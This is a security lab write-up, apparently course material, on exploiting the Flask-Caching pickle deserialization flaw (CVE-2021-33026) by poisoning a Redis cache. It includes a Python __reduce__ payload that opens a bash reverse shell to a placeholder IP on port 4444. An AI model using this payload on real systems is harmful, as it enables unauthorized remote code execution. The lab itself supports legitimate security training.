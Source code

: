 # Lab 06 - Redis Cache Poisoning and Reverse Shell Exploitation

## Objective

Exploit the Flask-Caching CVE-2021-33026 vulnerability by:
1. Testing Redis connectivity on port 6379
2. Authenticating with discovered credentials
3. Testing cache poisoning with benign commands
4. Uploading a reverse shell script via ZIP file
5. Poisoning the Redis cache with malicious pickle payload
6. Setting up netcat listener on port 4444
7. Triggering exploitation to achieve Remote Code Execution
8. Gaining reverse shell access to the container

## ⚠️ WARNING

This lab involves actual exploitation techniques that achieve Remote Code Execution. **Only perform these actions on systems you own or have explicit written permission to test.** Unauthorized access to computer systems is illegal and punishable by law.

## Background

### CVE-2021-33026: Flask-Caching Pickle Deserialization RCE

Flask-Caching versions before 1.10.1 use Python's `pickle` module for serializing cached objects. The `pickle` module is inherently unsafe when handling untrusted data because it can execute arbitrary code during deserialization.

**Attack Flow:**
1. **Identify cached endpoint**: Find an endpoint that stores/retrieves cached data
2. **Craft malicious pickle**: Create a pickle payload that executes our reverse shell
3. **Poison the cache**: Inject malicious pickle into Redis using direct connection
4. **Trigger deserialization**: Access the cached endpoint via HTTP
5. **Code execution**: The application unpickles our payload, executing our code
6. **Reverse shell**: Connection established to our netcat listener

### Why This Works

When Python unpickles data, special methods like `__reduce__()` can specify arbitrary callables to execute:

```python
class RCE:
    def __reduce__(self):
        import os
        return (os.system, ('/bin/bash -c "bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"',))
```

When this object is pickled and then unpickled, it executes the `os.system()` command with our reverse shell payload.
